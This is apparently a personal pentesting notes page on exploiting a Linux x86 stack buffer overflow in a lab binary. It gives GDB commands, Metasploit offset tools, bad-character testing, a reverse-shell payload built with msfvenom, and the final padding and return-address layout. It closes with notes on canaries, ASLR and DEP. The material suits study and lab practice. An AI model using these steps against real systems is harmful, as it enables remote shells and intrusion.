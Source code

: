 # Buffer Overflow

{% hint style="info" %}
Buffer overflow is an **anomaly** that occurs when **software writing data to a buffer overflows the buffer’s capacity**, resulting in **adjacent memory locations being overwritten**.

_In other words, too much information is being passed into a container that does not have enough space, and that information ends up replacing data in adjacent containers._

Buffer overflows can be exploited by attackers with a goal of modifying a computer’s memory in order to undermine or take control of program execution.
{% endhint %}

![BOF](<../.gitbook/assets/image (63).png>)

### Check file type

```bash
file bow32 | tr "," "\n"
```

***

***

### How to attack ?

![](<../.gitbook/assets/image (39).png>)

#### 1 : Testing the Crash

![](<../.gitbook/assets/image (114).png>)

```bash
#Python command to BOF
run $(python -c "print '\x55' * 1200")

#To confirm the exact number of Bytes needed 
info registers eip
```

#### 2 : Finding the EIP Offset

![](<../.gitbook/assets/image (13).png>)

```bash
# Generate a more precise pattern
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt

# Run the pattern using python
run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

# Locate the exact memory address where the BOF occurs
info registers eip

# Use the memory address to calculate the offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

![](<../.gitbook/assets/image (146).png>)

#### 3 : Finding Shellcode Space : General

```bash
# Calculate the required padding for the payload
run $(python -c "print '\x55' * 1036 + '\x66' * 4")
```

#### 4 : First Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

#### 5 : Finding Shellcode Space : Garbage + NOPs + Payload + EIP

![](<../.gitbook/assets/image (2) (1) (1) (1).png>)

```bash
    # Pre-final padding (Garbage - NOPs - Payload - EIP)
    Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
    NOPs = "\x90" * 100
    Shellcode = "\x44" * 150
    EIP = "\x66" * 4'
```

```bash
# Pre-final BOF Exploit
# Must check for Bad Chars before executing
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

![](<../.gitbook/assets/image (116).png>)

#### 6 : Testing for Bad Chars

⚠️ **FACULTATIVE**, BUT... MUST CHECK WHEN USING **ONLINE SHELLCODES** ⚠️

```bash
    # Most Bad Chars
    \x00 - Null Byte
    \x0A - Line Feed
    \x0D - Carriage Return
    \xFF - Form Feed
    \x09
    \x20
```

### How to find bad Chars

```bash
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

```bash
    ## Padding to check Bad Chars
    Buffer = "\x55" * (1040 - 256 - 4) = 780
    CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```

```bash
# Prep for testing Bad Chars
disas main
break bowfunc 
```

```bash
# Run Python script
run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```

```bash
# Check for memory in break for \x00 (Must follow the $CHAR pattern)
x/2000xb $esp+500
# Check image below
```

![](<../.gitbook/assets/image (18).png>)

#### 1 : Final Stage Payload

```bash
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

#### 2 : Finding JMP EIP

```bash
   # Enter the payload
   # Next focus on the placement of EIP (return address)
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
   EIP = "\x66" * 4'
```

```bash
# Python command to locate EIP
run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')
```

![](<../.gitbook/assets/image (9) (1).png>)

⚡ **Choose an address to which we refer the EIP and which reads and executes one byte after the other starting at this address.**

![](<../.gitbook/assets/image (40).png>)

#### 🚨 **Execute the Payload | Rain Hell on 'em** 🚨

```bash
   # 🚨 NOTE!! Payload must be run outside GDB, Duhh!! 🚨
   # Final Padding
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 841
   NOPs = "\x90" * 124
   Shellcode = "\xda\xca\xba\xe4\x11\xd4...<SNIP>...\x5a\x22\xa2"
   EIP = "\x4c\xd6\xff\xff"
```

### GDB Syntax

```bash
set disassembly-flavor intel

disassemble main

disas bowfunc

info registers 

info registers eip
i r $eip
```

![](<../.gitbook/assets/image (36).png>)

![](<../.gitbook/assets/image (81).png>)

![](<../.gitbook/assets/image (74).png>)

### How to protect ?

* **Canaries** The canaries are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.
* **Address Space Layout Randomization (ASLR)** Address Space Layout Randomization (ASLR) is a security mechanism against buffer overflows. It makes some types of attacks more difficult by making it difficult to find target addresses in memory. The operating system uses ASLR to hide the relevant memory addresses from us. So the addresses need to be guessed, where a wrong address most likely causes a crash of the program, and accordingly, only one attempt exists.
* **Data Execution Prevention (DEP)** DEP is a security feature available in Windows XP, and later with Service Pack 2 (SP2) and above, programs are monitored during execution to ensure that they access memory areas cleanly. DEP terminates the program if a program attempts to call or access the program code in an unauthorized manner.
